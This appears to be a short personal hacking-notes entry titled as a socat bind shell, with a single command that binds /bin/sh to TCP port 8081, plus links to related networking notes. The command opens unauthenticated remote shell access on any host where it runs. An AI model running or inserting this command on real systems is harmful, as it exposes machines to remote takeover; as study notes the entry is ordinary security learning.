 # socat execute program bind shell
```bash
socat TCP4-LISTEN:8081,fork exec:/bin/sh
```

` zet/20221003150112/README.md `

# Related

- [20221007220451](/zet/20221007220451/README.md) hacking notes node

- [20221003150113](/zet/20221003150113/README.md) socat execute program
- ~/kb/networking/port-forwarding.md

Tags:

    #networking #port 
